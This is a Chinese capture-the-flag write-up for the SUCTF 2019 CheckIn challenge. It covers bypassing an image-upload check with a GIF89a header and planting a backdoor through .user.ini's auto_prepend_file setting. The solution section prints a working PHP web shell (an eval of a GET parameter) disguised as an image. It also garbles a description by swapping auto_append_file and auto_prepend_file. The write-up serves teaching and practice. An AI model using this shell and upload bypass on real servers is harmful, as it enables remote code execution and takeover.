


# [SUCTF 2019]CheckIn

## 考点

- 图片上传绕过
- `.user.ini`文件

### exif_imagetype

```
exif_imagetype
(PHP 4 >= 4.3.0, PHP 5, PHP 7, PHP 8)
exif_imagetype — 判断一个图像的类型
说明：
exif_imagetype ( string $filename ) : int
exif_imagetype() 读取一个图像的第一个字节并检查其签名。

GIF89a图片头文件欺骗可以绕过
```

### .user.ini的知识

那么什么是.user.ini？

这得从php.ini说起了。php.ini是php默认的配置文件，其中包括了很多php的配置，这些配置中，又分为几种：PHP_INI_SYSTEM、PHP_INI_PERDIR、PHP_INI_ALL、PHP_INI_USER。 在此可以查看：PHP: php.ini 配置选项列表 - Manual 这几种模式有什么区别？看看官方的解释：


`.user.ini`实际上就是一个可以由用户“自定义”的php.ini，我们能够自定义的设置是模式为“PHP_INI_PERDIR 、 PHP_INI_USER”的设置。（上面表格中没有提到的PHP_INI_PERDIR也可以在.user.ini中设置）

实际上，除了PHP_INI_SYSTEM以外的模式（包括PHP_INI_ALL）都是可以通过.user.ini来设置的。

而且，和php.ini不同的是，.user.ini是一个能被动态加载的ini文件。也就是说我修改了.user.ini后，不需要重启服务器中间件，只需要等待user_ini.cache_ttl所设置的时间（默认为300秒），即可被重新加载。

然后我们看到php.ini中的配置项，可惜我沮丧地发现，只要稍微敏感的配置项，都是PHP_INI_SYSTEM模式的（甚至是php.ini only的），包括disable_functions、extension_dir、enable_dl等。 不过，我们可以很容易地借助.user.ini文件来构造一个“后门”。

php配置项中有两个比较有意思的项（下图第一、四个）：


**`auto_append_file，`指定一个文件，自动包含在要执行的文件前，类似于在文件前调用了require()函数。而auto_append_file类似，只是在文件后面包含。 使用方法很简单，直接写在.user.ini中：**

```ini
auto_prepend_file=shell.jpg
```


## 解题

- 制作shell.jpg图片马，并上传

```php
GIF89a?
<script language="php">eval($_GET['y0lo']);</script>
```

- 制作`.user.ini`文件，并上传

```ini
GIF89a?
auto_prepend_file=shell.jpg
```

